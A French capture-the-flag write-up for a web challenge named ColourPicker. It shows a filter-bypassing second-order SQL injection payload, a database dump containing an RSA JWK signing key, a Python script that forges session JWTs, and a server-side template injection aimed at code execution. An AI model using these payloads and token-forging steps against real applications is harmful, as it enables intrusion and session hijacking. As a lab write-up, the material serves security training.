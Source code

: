 # ColourPicker

**Auteur :** [Mika](https://x.com/bWlrYQ) 
**Énoncé :**  
![ColourPicker](https://media1.tenor.com/m/cXXIop9N2VAAAAAd/color-pallete.gif)

J'ai créé une appli qui vous permet de choisir une couleur personnalisée pour le front-end, c'est toujours en beta mais n'hésitez pas à jouer avec, de toute façon j'ai fait attention à la sécurité.
**Difficulé :** Moyen
**Code Source :** Non

> Résumé : Ce challenge consistait en l'exploitation d'une injection SQL du 2nd ordre permettant ensuite de forger son propre token JWT et d'exploiter une SSTI.

## Résolution

En jouant un peu avec les différents champs à l'inscription, on identifie une liste bloquante sur certains caractères ou mots dans le nom de l'utilisateur. Cette piste nous oriente sur un potentiel risque d'injection. A l'aide de tests plus ou moins exhaustifs, on identifie la liste suivante :

```python
[" ", '"', "<", ">", "script", "=", ";", "-", "--", "/**/"]
```

En orientant nos recherches vers une injection SQL, on peut bypasser les filtres et encoder nos espaces à l'aide d'un commentaire multiligne: `/*_*/`.
Les quotes simples `'` sont les seules autorisées, et les débuts de commentaires `/*` également.

On essaie donc de s'inscrire avec le payload `'/*_*/UNION/*_*/SELECT/*_*/5*5/*`.
On identifie ainsi une [Second Order SQL injection](https://portswigger.net/kb/issues/00100210_sql-injection-second-order), réflété dans le footer de la page une fois connecté.

On peut ensuite utiliser une méthodologie classique d'exploitation d'injection SQL pour exfiltrer le SGBD et les données de la base (cf [solve.py](solve.py)).

Cette exfiltration nous permet de récupérer une clé RSA au format JWK. Compte tenu du cookie de session, il semblerai que cette clé soit utilisée pour signer le JWT de session.

```sql
INSERT INTO jwt_keys (kid, kty, p, q, d, e,n ,qi, dp, dq) VALUES (
    'default',
    'RSA',
    '9CgncwPxNHq5UrfwoOehxxS9KP2cGHIOHBNdhQ1_JstaMRCXiTQSmGdCWBRKpgVTlVuC-BnTnfv8_iAsMWQ62w',
    '0jmpPEaBvRWdGnMA3Ze8LRy7BRgp1EZ9arE3eet-9mWdIjlLQkbRq_s4W_B701XCvog3R4AYJicZBD6pMwX8OQ',
    'RDt9YficFR77ffWSe2pUoASMpj385D9G7ZACsw4cArrZZmeuvAhkPFZIhGBSqp_BJSLSKn5gDLevvxYMJ1B_a0YrGbdSl5KnkQA4Bqy5bQplgbseKrc1dUZ99OTH6pRVfCX3r_jYRVlz95FJFWe_tPrN6GZi_UJG4mhikCztTlE',
    'AQAB',
    'yH_utSCKoawZ0GCbMpgWbruhrjxvReqGshuS5lUW1wVcofKs4e2pKenD0MPatNtHQYGR-_0i_KJDIkKiV2cvydM4Fx7LWU3Q-rN49b_sw4XqjuE2v5HuAUIwF4wBCBR90ZcIEZv_SMprjxGNFnbX5h0CuKIlj8VVGsx9t3CHrsM',
    'und1FyMS6r8Alb9SFTCkmy_yzGOrhPU2tcG0HtsZpuNwZTzb5w5SyIQi1HtX7iPimDXXTtusLuUxTKIDlmO5qg',
    'mkDoM40xDePfQ_h8KVxOZFWg8M3RmcwtR-WgNxiA1cSyFb-SzZc9jFXon3cqdlt1JC6tvwuqG-0BOJig8w-M8w',
    'xvJkkzNScmPy8mXlas---J5Y6uBMLaSr6f1eN9ZCp-HQC-RWsZkdsfkkA_YY6Q4fJ3r3fYXe1LRpe1flffDrGQ'
);
```

Une [conversion au format PEM](https://8gwifi.org/jwkconvertfunctions.jsp) peut être necessaire pour forger un jeton. On peut définir le script suivant pour générer un jeton avec nue couleur arbitraire :

```python
import jwt
from cryptography.hazmat.primitives import serialization
from cryptography.hazmat.primitives.asymmetric import rsa

def jwk_to_pem(
    p: str, q: str, d: str, e: str, n: str, qi: str, dp: str, dq: str
) -> str:
    """Convert a RSA key from JWK format to PEM"""

    def b64_to_int(value: str) -> int:
        """Convert Base64 encoded value to Int"""
        return int.from_bytes(urlsafe_b64decode(value + "=="), "big")

    # Construct the RSA private key
    private_key = rsa.RSAPrivateNumbers(
        p=b64_to_int(p),
        q=b64_to_int(q),
        d=b64_to_int(d),
        dmp1=b64_to_int(dp),
        dmq1=b64_to_int(dq),
        iqmp=b64_to_int(qi),
        public_numbers=rsa.RSAPublicNumbers(e=b64_to_int(e), n=b64_to_int(n)),
    ).private_key()

    # Serialize the private key to PEM format
    pem = private_key.private_bytes(
        encoding=serialization.Encoding.PEM,
        format=serialization.PrivateFormat.PKCS8,
        encryption_algorithm=serialization.NoEncryption(),
    )

    return pem.decode("utf-8")


def generate_jwt(payload: str, private_key: str) -> str:
    """Generate a valid JWT based on a given payload an private key"""
    now = int(time.time())
    json = {
        "user_id": 1,
        "colour": payload,
        "iat": now,
        "exp": now + 60 * 60 * 2,
    }
    # Encode the JWT
    token = jwt.encode(
        json,
        private_key,
        algorithm="RS256",
        headers={"kid": "default"},
    )
    return token
```

Les tests avec différentes couleurs semble fonctionner.
On peut maintenant essayer d'injecter dans les champs du jeton.

Compte tenu des technologies utilisées sur l'application, on oriente nos recherches sur une [SSTI](https://portswigger.net/web-security/server-side-template-injection), qui s'avère fructueuse. En définissant la couleur `{{7*7}}` dans le champ `colour` on obtient `49` dans le corp du document.

On peut enfin utiliser une méthodologie classique d'exploitation SSTI pour gagner une execution de code sur le serveur (cf [solve.py](solve.py)). Cette exploitation se fera a l'aide du gadget `subprocess.Popen()`.